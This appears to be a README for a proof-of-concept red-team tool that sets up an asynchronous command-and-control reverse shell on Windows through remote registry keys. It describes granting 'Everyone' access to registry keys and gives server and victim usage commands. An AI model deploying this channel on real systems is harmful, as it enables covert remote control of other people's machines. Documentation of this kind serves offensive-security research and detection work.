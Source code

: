 # Everything Is A Shell... An asyncrounous shell at least...

## Disclaimer
The shells in this repository are all Proof-of-Concept and have only been tested in my lab. They are made to test if the shells actually work and nothing else. Enjoy :)

## Concept for this repository
This repository is made to explore more untraditional ways for establishing command and control (c2) on Microsoft Windows systems. The shells in this repository are asynchronous just like Cobalt Strikes shells: Asyncronous. This means that the client (beacon) and server (C2) will not communicate at all times like a standard netcat/meterpreter shell. Instead, the client will check-in for any new commands from the server at a given interval (sleep timer). If a command is found, the client will execute it, and post the result back to the server. The checkin-interval is a sleep timer just like in Cobalt Strike. 

At this moment, the repository only has a C2 using Windows Registry keys, but I hope to add more in the future. 

## C2 using Windows registry keys

### Short description: 
This reverse shell is based on Windows Registry keys. Windows allows for specific users to read, write and/or delete registry keys on remote systems using the WinReg Protocol (MS-RRP), which is build on top of the RPC protocol: (https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-rrp/0fa3191d-bb79-490a-81bd-54c2601b7a78). Using custom code, it is possible to create a client-server-relationsship by having certain registry keys located on the server that the client can interact with.  

**Requirements:** 
The Remote Registry Service needs to be enabled on the server, and the user trying to connect/read/write to the remote registry needs to have the correct permissions.

**Limitations:** 
Since the traffic is based on RPC, it should only be suitable for lateral movement on local networks, however I have not tested it over the internet. 

### How it works:
1. When the server starts, the Remote Registry Service is enabled and started. 
2. The registry key HKEY_LOCAL_MACHINE\Software\RegistryC2\<user-defined> is created along with the following registry values: cmd, output & sleep. 
3. Permissions are then set for the user "Everyone" on the newly created registry key.
4. Permissions are then likewise set on the key: HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\SecurePipeServers\winreg. This ensures that the client any client can authenticate to the server. (N.B. On exiting/closing of the server, these permissions are removed again.) 
5. The client will then check the C2 server for the value of "sleep" to determine how often to check it. 
6. The client then executes whatever command found in the "cmd"-value. 
7. The result of the command is written as a string to the C2's "output" value. 
8. While running, the server will look for new updates to the "output" value and prints it back to the attacker.

### Usage:
**Setup the server on the attackers machine (listener/C2):**
``` 
RegC2Server.exe <Registry key name to use with the client>
RegC2Server.exe victim01
```
**Starting the client on the victim (beacon):**
```
RegC2Client.exe <host> <Registry key name used to start the server>
RegC2Client.exe ws01 victim01
```

**Since this is a POC, only the following commands have been implemented:**
```
>help
sleep <int>      Set the sleep time to the value of int
cmd <command>    cmd to execute
exit             Exit the application gracefully
```


### Screenshot:


Win32 apis 

Wireshark traffic
